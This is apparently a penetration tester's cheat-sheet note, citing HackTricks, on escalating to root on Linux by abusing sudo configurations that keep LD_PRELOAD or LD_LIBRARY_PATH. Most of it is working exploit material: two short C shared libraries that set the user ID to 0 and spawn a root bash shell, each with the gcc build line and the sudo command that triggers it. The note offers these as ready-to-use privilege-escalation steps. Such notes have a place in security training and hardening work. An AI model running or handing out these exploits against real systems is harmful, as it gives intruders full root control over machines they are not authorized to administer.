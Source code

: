 [[Sudo - Shell Escapes]]
#### LD_PRELOAD
**env_keep+=LD_PRELOAD**
[Hack-Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

If sudo -l shows any root function and the env_keep+=LD+PRELOAD we can compile a shared library to bee called for priv-esc

`/tmp/pe.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

*compile & run*
```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles

sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```

**LD_LIBRARY_PATH**
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```
